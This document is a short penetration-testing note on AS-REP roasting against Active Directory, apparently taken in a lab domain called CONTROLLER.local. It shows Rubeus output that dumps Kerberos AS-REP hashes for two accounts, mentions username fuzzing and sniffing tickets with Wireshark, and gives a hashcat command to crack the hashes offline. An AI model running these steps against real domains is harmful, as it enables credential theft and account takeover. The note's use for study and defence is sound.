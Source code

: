 ```bash
C:\Users\Administrator\Downloads>Rubeus.exe asreproast

[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8d92:d3ee:f484:1784%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:F5B49B1BBDB679E2163F4FE4A4FABFB7$8B3DB20D2708
      180C6DF0C904528D11C88305EFDAD408C1E97E8249042DF13AD9BD70CB177D98DAACFFEF6C0C689A
      7430B369F11AB...

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8d92:d3ee:f484:1784%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:2AA61EA6539C0883604C13767AE6C748$09AB04BD502E0
      9A3316FE12975295F38F5BD1906C00B33FB2C1AD09291CD59AF86A100BC07E37C8C8B85014714F8A
      DC3EBB4D97E76E8...
```

---

## [+] other Methods (If Pre-Auth. is disabled)

### [-] fuzzing username if you don’t know any username

### [-] Sniff TGT

- sniff using wireshark then add “Kerberos” as a filter,  view AS-REP > Kerberos > ticket > enc-part

---

## [+] Cracking

- Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User..…, to avoid `Signature unmatched` error

```bash
hashcat -m 18200 hash.txt wordlist.txt
```

---